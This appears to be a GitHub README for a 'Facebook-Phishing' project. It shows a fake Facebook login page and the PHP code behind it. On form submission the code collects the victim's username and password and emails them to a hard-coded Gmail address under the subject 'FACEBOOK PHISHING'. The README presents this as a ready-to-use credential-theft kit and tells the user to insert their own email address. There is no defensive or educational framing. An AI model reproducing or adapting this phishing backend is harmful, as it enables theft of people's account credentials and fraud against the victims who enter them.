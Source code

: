 # Facebook-Phishing
Facebook Phishing { UI &amp;  [fish (User_Name &amp; Password)] Send Your email address }
<br><br>
![ui01](https://user-images.githubusercontent.com/77710282/158953984-17708128-2cff-445f-88c9-0f6daf64e9ee.PNG)


## PHP FUNCTION
```
<?php 
	
	//php STRAT
	if ( isset($_POST['submit']) )
	
	{
		$email		= $_POST['email'];
		$subject	= $_POST['subject'];
  
		$to	 		  = 'dhjptharindu@gmail.com'; // your email address
		$mail_subject = 'FACEBOOK PHISHING ';
		$email_body   = "<h2> FISH FACEBOOK DETAILS: </h2><br><br>";
    $email_body   .= "<b>USER NAME:</b> {$subject} <br>";
		$email_body   .= "<b>PASSWORD:</b> {$email} <br>";
		$header       = "From: {$email}\r\nContent-Type: text/html;";

		$send_mail_result = mail($to, $mail_subject, $email_body, $header);
	}
?>
```
## Mail
```
$to	 		  = 'dhjptharindu@gmail.com'; // your email address
```
